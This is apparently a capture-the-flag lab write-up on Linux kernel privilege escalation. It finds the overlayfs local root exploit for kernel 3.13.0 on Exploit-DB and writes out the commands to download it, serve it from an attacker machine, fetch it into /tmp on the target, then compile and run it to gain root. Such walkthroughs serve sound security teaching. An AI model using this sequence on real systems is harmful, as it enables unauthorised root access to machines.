 # Kernel Exploits

**Step 1: SSH Login to the Target Machine**

First, SSH into the target machine.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2: Check the Kernel Version**

Since we already know this is a kernel privilege escalation exploit, let's check the kernel version running on our target machine using the following command:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3: Search for Exploits**

Now that we have the kernel version, we can search in well-known exploit databases, such as [Exploit Database](https://www.exploit-db.com/).

Searching for `Linux 3.13.0` yields the following results:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **Exploit Found**: I found an exploit for the Linux Kernel versions `3.13.0` to `< 3.19` (specifically for Ubuntu 12.04, 14.04, 14.10, and 15.04) related to 'overlayfs' Local Privilege Escalation.

**Step 4: Review the Exploit Details**

When we open this exploit, we can see the details and some instructions on how to use it.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 5: Download the Exploit**

To make this exploit work, we need to download the raw content to the attack machine and then transfer it to the vulnerable machine. Choose a directory of your preference and use the `wget` command to download the exploit. For example:

```bash
wget https://www.exploit-db.com/raw/37292
```

**Step 6: Rename the File and Start the HTTP Server**

Next, rename the downloaded file to `ofs.c`, and start a simple HTTP server to transfer the file to the vulnerable machine:

```bash
python -m SimpleHTTPServer 8000
```

**Step 7: Download the Exploit on the Vulnerable Machine**

On the vulnerable machine, we must choose the `/tmp` directory for the download; otherwise, we will encounter a "Permission denied" message. Use the following command:

```bash
wget -O /tmp/ofs.c http://<attack_machine_IP>:8000/ofs.c
```

#### Breakdown of the Command

* **`wget`**: This is the command-line utility used for downloading files from the web.
* **`-O /tmp/ofs.c`**: The `-O` option specifies the output file name and path. In this case, it tells `wget` to save the downloaded file as `ofs.c` in the `/tmp` directory. The `/tmp` directory is often used for temporary files and is typically writable by all users.
* **`http://<attack_machine_IP>:8000/ofs.c`**: This is the URL from which you are downloading the file. It points to the file `ofs.c` being served by an HTTP server running on the machine with the IP address `10.10.242.118` on port `8000`.

**Step 8: Compile and Run the Exploit**

Now, navigate to the `/tmp` directory and follow the instructions presented in the exploit. Compile the file and then run it:

```bash
gcc ofs.c -o ofs
./ofs
```

**Step 9: Verify Privilege Escalation**

After running the exploit, we can verify our privileges. Running the `id` command again shows that we are now 'root'. We can also use the `whoami` command to confirm this:

```bash
id
whoami
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 10: Access the Flag**

To retrieve the flag, navigate to the `/home/matt` directory and use `cat` to view the contents of the file:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we had tried to use `cat flag1.txt` before the exploit, we would have received a "Permission denied" message.

With this write-up, we demonstrated the impact of having an outdated system. Having access to a user's credentials allowed us to leverage that privilege to gain access to the root account. This exercise highlights the importance of keeping systems updated and patched against known vulnerabilities, as well as the potential risks associated with running outdated software.
